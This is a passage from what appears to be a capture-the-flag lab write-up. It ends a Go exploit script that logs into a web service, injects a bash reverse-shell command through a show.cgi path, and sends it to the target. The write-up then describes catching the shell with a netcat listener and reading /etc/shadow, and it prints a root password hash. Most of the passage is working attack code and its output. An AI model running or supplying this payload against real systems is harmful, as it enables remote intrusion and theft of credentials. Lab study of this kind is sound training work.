 ```go  
			return
		}

		fmt.Println("[+] - Login success, executing payload...")
		fmt.Println("- Using session id:", sid)

		rnum := randString(5)
		fmt.Println("- Using random alphanumeric string:", rnum)

		payload := fmt.Sprintf("bash -c 'exec bash -i &>/dev/tcp/%s/%s<&1'", lhost, lport)
		exp := fmt.Sprintf("http://%s/file/show.cgi/bin/%s|%s|", targetIP, rnum, payload)
		fmt.Println("- Executing payload:", exp)

		req, err = http.NewRequest("POST", exp, nil)
		if err != nil {
			fmt.Println("Error creating request:", err)
			return
		}

		req.AddCookie(&http.Cookie{Name: "sid", Value: sid})

		resp, err = client.Do(req)
		if err != nil {
			fmt.Println("Error sending request:", err)
			return
		}
		defer resp.Body.Close()

		fmt.Println("- Run nc -nlvp 53 on the attacker machine to listen for the shell with netcat. Restart this exploit if that hasn't been done already.")
	} else {
		fmt.Println("Login failed")
	}
}
```  

## **Let's fire off the exploit**  

### Python  

![](/thm-intro-poc-script/thm-intro-poc-script-python-exploit.png)  

### GoLang  

![](/thm-intro-poc-script/thm-intro-poc-script-golang-exploit.png)  

## **Our reverse Shell. We should have our listener running before the exploit...**  
![](/thm-intro-poc-script/thm-intro-poc-script-ncat-listener.png)  

**Grab the hashes with cat /etc/shadow**  

```
root:$6$Fy2Peey/$zKJEi5mOEiUK3geWKtBhspBCkdUr30fhxGSaRPcpXHogR6KYEeFt3cNA4YWfojLP/Jejt8DlD7kmO7Gl32xLC1:18510:0:99999:7:::
```  

# **Donezo Funzo**
